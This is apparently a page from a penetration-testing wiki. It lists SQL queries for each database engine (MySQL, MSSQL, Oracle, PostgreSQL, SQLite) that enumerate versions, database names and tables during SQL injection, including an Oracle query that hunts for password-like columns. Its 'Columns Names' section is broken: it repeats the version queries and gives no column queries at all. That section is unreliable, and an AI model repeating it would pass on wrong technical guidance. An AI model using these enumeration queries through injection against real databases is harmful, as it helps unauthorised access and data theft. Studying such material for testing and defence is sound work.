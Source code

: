 # Enum Database

## Theory

When exploiting SQL injection vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains. 

## Practice

{% hint style="info" %}
All queries on this page can be used with different techniques as UNION or Blind based attacks
{% endhint %}

### Database version 
Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.  
The queries to determine the database version for some popular database types are as follows:  

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT banner FROM v$version
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT version() 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sqlite_version();
```
{% endtab %}
{% endtabs %}

### Database Names 
When performing SQL injections, it can be useful to know the names of the databases that are present on the targeted server. Enumerating the database names allows you to identify which databases are available and potentially gain insight into the server's configuration and architecture. This information can be used to craft more targeted and effective SQL injection attacks. 

{% tabs %}
{% tab title="MySQL" %}
We can enum the current database with the following query:
```sql
SELECT database();
```
We can list all databases with the following query:
```sql
SELECT schema_name FROM information_schema.schemata;
```
{% endtab %}

{% tab title="MSSQL" %}
We can enum the current database with the following query:
```sql
SELECT DB_NAME();
```
We can list all databases with the following queries:
```sql
SELECT name FROM master..sysdatabases;
/*or*/
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```
{% endtab %}

{% tab title="OracleSQL" %}
We can enum the current database with the following queries:
```sql
SELECT global_name FROM global_name;
SELECT name FROM V$DATABASE;
SELECT instance_name FROM V$INSTANCE;
SELECT SYS.DATABASE_NAME FROM DUAL;
```
We can list all databases with the following query:
```sql
SELECT DISTINCT owner FROM all_tables;
```
{% endtab %}

{% tab title="PostgreSQL" %}
We can enum the current database with the following query:
```sql
SELECT current_database();
```
We can list all databases with the following query:
```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="SQLite" %}
We can extract database structure with the following query
```sql
SELECT sql FROM sqlite_schema;
```
{% endtab %}
{% endtabs %}

### Tables Names 
The next step in performing SQL injections is to enumerate the tables that are present within each database. Enumerating the table names can provide valuable information about the structure and content of the databases.  

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT table_name FROM information_schema.tables
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT table_name FROM information_schema.tables
SELECT table_name FROM information_schema.tables WHERE table_catalog = DB_NAME();
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT table_name FROM all_tables;
SELECT table_name FROM all_tables WHERE owner = USER;

SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = current_schema();
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';
```
{% endtab %}
{% endtabs %}

### Columns Names 
Next step is to enumerate columns within tables.
{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT banner FROM v$version
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT version() 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sqlite_version();
```
{% endtab %}
{% endtabs %}


## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
